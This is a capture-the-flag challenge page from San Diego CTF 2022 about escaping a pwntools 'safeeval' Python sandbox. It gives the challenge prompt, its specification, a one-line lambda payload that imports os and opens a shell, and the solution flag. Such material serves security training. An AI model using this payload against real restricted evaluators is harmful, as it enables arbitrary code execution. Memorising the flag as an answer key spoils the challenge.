 # Turing-complete safeeval
## JAIL - Easy
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | fredd (thehackerscrew) | 0 | 0 |
### prompt
Hey! We just made a brand new Turing-complete calculator based on a slight modification of `pwnlib.util.safeeval` to allow defining functions, because otherwise it would be Turing-incomplete.

Still we are allowing only pure functions, so there is no security implication right?

Connect via:
`nc safeeval.sdc.tf 1337`

### original specification
Use pwntools's test_expr with the default pwntools _expr_codes list plus MAKE_FUNCTION and CALL_FUNCTION. The exploit is to define a lambda function that runs arbitrary code, like this (pwntools won't recursively check subfunctions):

`(lambda: __import__('os').system('sh'))()`

This is Turing complete because lambda calculus is Turing complete (allow defining functions)

**flag:** `sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}`

### write-ups
1. https://github.com/ninnikukawaii/write-ups/tree/master/San%20Diego%20CTF%202022/jail/turing-complete-safeeval